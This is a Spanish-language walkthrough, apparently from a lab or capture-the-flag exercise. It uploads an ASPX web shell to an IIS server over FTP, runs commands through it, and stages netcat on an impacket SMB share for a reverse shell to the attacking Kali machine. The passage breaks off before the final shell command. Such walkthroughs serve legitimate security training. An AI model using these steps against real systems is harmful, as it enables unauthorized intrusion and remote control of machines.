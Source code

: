 Por medio del protocolo `ftp` podemos subir este archivo con el comando `put`

```python
put cmdasp.aspx
```

Ahora si hacemos un `dir` vemos que se a subido exitosamente el archivo `cmdasp.aspx`

Ahora si recargamos en la página web, con la ruta del archivo veremos que nos cargara un apartado para ejecutar comandos

```http
http://1.2.3.4/cmdasp.aspx
```

Ahora si ejecutamos whoami o dir, veremos que funciona a la perfección 

Pero ahora se preguntarán como obtener acceso remoto a la máquina ?

podríamos:

1. crear un archivo malicioso msfvenom y subiendo al ftp 
2. Crearse un recurso compartido que aloje un netcat.exe y apartir de ahi ingresar a la máquina victima 

 La segunda opción siempre suele ser la mejor decisión ya que con msfvenom dependemos en este punto de tener permiso de escritura y aveces puede ver como no 

Así que vamos aprender a como subir un archivo sin ubicarlo en ese directorio gigante que muestra:

![[IIS.png]]

Sino que en este punto nos levantamos un recurso compartido y la máquina victima accede a dicho recurso a mi netcat.exe y a ahi obtengo la revershell 

Para esto primero debemos buscar el archivo `nc.exe`

```bash
find / -name nc.exe 2>/dev/null
```

Encontraremos el archivo `nc.exe` asi que nos lo copiamos en nuestro directorio actual de trabajo 

```bash
cp /usr/share/windows-resources/binaries/nc.exe .
```

Ahora ya con el archivo `nc.exe` la idea es que desde nuestro kali levantarnos un recurso compartido en la red alojando este archivo nc.exe y luego desde la pagina web ejecutamos un comando apuntando a dicho recurso compartido y ademas apuntando a ese archivo `nc.exe` para poder ejecutar una revershell a mi máquina atacante 

Para esto tenemos una suit de herramienta que pertenece a impacket, impacket sirve para realizar muchisimas cosas como ataques en Windows, etc

Para este ejemplo es necesario levantar un recurso compartido con impacket

```bash
impacket-smbserver recurso $(pwd) -smb2support
```

Y ahora nos ponemos en escucha por el puerto 443 o el que quieran con `netcat` 
